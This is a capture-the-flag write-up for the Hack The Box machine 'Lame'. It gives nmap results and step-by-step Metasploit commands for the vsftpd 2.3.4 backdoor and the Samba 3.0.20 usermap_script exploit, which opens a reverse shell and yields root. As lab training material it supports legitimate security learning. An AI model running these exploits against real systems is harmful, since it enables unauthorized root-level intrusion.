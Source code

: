 # Hack the Box - Lame
&nbsp;
- Machine IP: 10.10.10.3
 
&nbsp;

----
&nbsp;
  
## Enumeration

### Nmap Results
``` 
#### Nmap 7.93 scan initiated Tue Dec 20 16:53:50 2022 as: nmap -sV -sC -A -Pn -oN 10.10.10.3.txt 10.10.10.3
> Nmap scan report for 10.10.10.3
> Host is up (0.060s latency).
> Not shown: 996 filtered tcp ports (no-response)
>
> PORT    STATE SERVICE     VERSION
> 21/tcp  open  ftp         vsftpd 2.3.4
> | ftp-syst: 
> |   STAT: 
> | FTP server status:
> |      Connected to 10.10.14.10
> |      Logged in as ftp
> |      TYPE: ASCII
> |      No session bandwidth limit
> |      Session timeout in seconds is 300
> |      Control connection is plain text
> |      Data connections will be plain text
> |      vsFTPd 2.3.4 - secure, fast, stable
> |_End of status
> |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
>
> 22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
> | ssh-hostkey: 
> |   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
> |_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
>
> 139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
>
> 445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
>
> Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
>
>
>
> Host script results:
> | smb-security-mode: 
> |   account_used: guest
> |   authentication_level: user
> |   challenge_response: supported
> |_  message_signing: disabled (dangerous, but default)
> | smb-os-discovery: 
> |   OS: Unix (Samba 3.0.20-Debian)
> |   Computer name: lame
> |   NetBIOS computer name: 
> |   Domain name: hackthebox.gr
> |   FQDN: lame.hackthebox.gr
> |_  System time: 2022-12-20T17:54:20-05:00
> |_smb2-time: Protocol negotiation failed (SMB2)
> |_clock-skew: mean: 2h30m11s, deviation: 3h32m10s, median: 9s
>
> 
>
> Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
>
#### Nmap done at Tue Dec 20 16:54:47 2022 -- 1 IP address (1 host up) scanned in 57.28 seconds
```

- No web server
- SSH is pretty secure
- Test FTP 21 and SMB 139/445

### FTP testing
```
> ftp 10.10.10.3
```
- Attempt sign in with anonymous and no password
  - Success
    - Seems to be root
    - No files of note found

- Check for vsftpd 2.3.4 vulnerabilities
  ```
  > searchsploit vsftpd 2.3.4    
  ```
  - `Backdoor Command Execution` available
    ```
    > msfconsole
    > search vsftpd 2.3.4
    > use exploit/unix/ftp/vsftpd_234_backdoor
    > set RHOST 10.10.10.3
    > exploit
    ```
    - We get banner 220, but are prompted for a password 
    - Using no password like specified before, exploit completes but no session is created

### SMB testing
- Check for vulerabilities on smbd 3.0.20
  ```
  > searchsploit 3.0.20
  ```
  - `Username map script Command Execution` available
    ```
    > msfconsole
    > search samba 3.0.20
    > use exploit/multi/samba/usermap_script
    > set RHOST 10.10.10.3
    > set LHOST tun0
    > exploit
    ```
    - ~~At this point I ran into an issue where no session would be created, no matter what I try. Multiple walkthroughs don't seem to have any trouble executing this script. I will return to this box later.~~
    - Get shell with root access
    ![](root%20shell.png)
    - Find user flag
    ![](user%20flag.png)
    - Find root flag
    ![](root%20shell.png)
  - `Remote Heap Overflow` available
